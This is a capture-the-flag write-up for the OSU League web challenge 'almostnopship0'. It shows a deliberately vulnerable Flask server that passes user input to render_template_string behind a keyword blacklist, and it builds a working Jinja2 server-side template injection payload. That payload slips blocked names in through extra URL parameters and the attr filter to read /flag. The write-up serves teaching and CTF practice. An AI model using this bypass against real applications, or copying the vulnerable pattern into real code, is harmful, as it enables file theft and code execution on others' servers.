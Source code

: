 ```yaml
---
title: "OSU League 2020/2021 - almostnopship0 Writeup"
date: 2021-02-07
tags:
  - osuleague
  - ctf
  - security
---
```


For this web challenge, we are given a link to a website that bears a striking resemblance to a certain DEF CON challenge. ~~pew pew~~  

{{< figure src="/img/almost-1.png" >}}

We are told the location of the flag and are provided the source code for the server, along with a nice text box where we can enter our team name. 

{{< figure src="/img/almost-2.png" >}}

Cool! Four P's are better than three. Now Let's take a look at that source code:

```python
from flask import Flask, render_template, request, send_file, render_template_string

app = Flask(__name__)

# scary names!!
blacklist1 = '_[]\'\"\\%'
blacklist2 = ['mro', 'config', 'base', 'join', 'os', 'subprocess']

@app.route('/')
def root():
    name = request.args.get('name')

    if name: 
        name = name.lower()
        if any([c in blacklist1 for c in name]) or any([b in name for b in blacklist2]):
            name = 'stop it :('

    index = render_template('index.html', name=name)
    return render_template_string(index)

@app.route('/src', methods=['GET'])
def src():
    return send_file('server.py')

# todo run NOPs
```

Interesting. We can see that some sort of blacklist has been implemented that prevents us from using certain character.  Let's tests that out and see if it works:

{{< figure src="/img/almost-3.png" >}}

Yep, so our team name wasn't able to go through, what a bummer.  
At this point I started to do some research on what I could possibly do to read the flag off of the server. I knew that it had to be a server side injecton, so I looked into that.  Eventually I came across what is know as a Flask SSTI, a type of server side template injection that Flask can be vulnerable to. I gave the input a simple template of `{{request.args}}` and voila.

{{< figure src="/img/almost-4.png" >}}

Now it's time to start crafting a payload.  We know that we can inject templates in the team name box, but those will all be checked against the blacklist. Maybe there is a way to add additional parameters that could then be read using `request.args`, that way the blacklisted items aren't actually part of `name`, but instead some other variable that we created.  Let's try it out:

`http://ctf-league.osusec.org:31311/?name={{request.args.param1}}&param1=%%Scary_Name%%` 

{{< figure src="/img/almost-5.png" >}}

And there it is. We now have a way to bypass the filter.  Now we just need to figure out how we are going to get the flag. After doing some more research, we were able to find that we could use `request.application` to access python's internal built-in functions. We eventually settled on this for what we wanted to be excecuted on the server:

`request.application.__globals__.get(__builtins__).open(/flag)`

To transform this into a usable payload, however, we had to set it up in such a way so that we could get around the blacklist. We were able to eventually come up with a method to transform any command into a usable payload:

```
a.b = request.args.a|attr(request.args.b)
a(b) = reqiest.args.a(request.args.b)
```

With this we can start to seperate out our command into sections:

```
request.application + __globals__
get() with paramater __builtins__
open() with paramerter __flag__
```

And putting the whole payload together:

`http://ctf-league.osusec.org:31311/?name={{(request.application|attr(request.args.param1)).get(request.args.param2).open(request.args.param3).read()}}&param1=__globals__&param2=__builtins__&param3=/flag`  

We get the flag!

{{< figure src="/img/almost-flag.png" >}}

`osu{but_mY_bLAcKL1st_W4S_so_g00d:(}` 
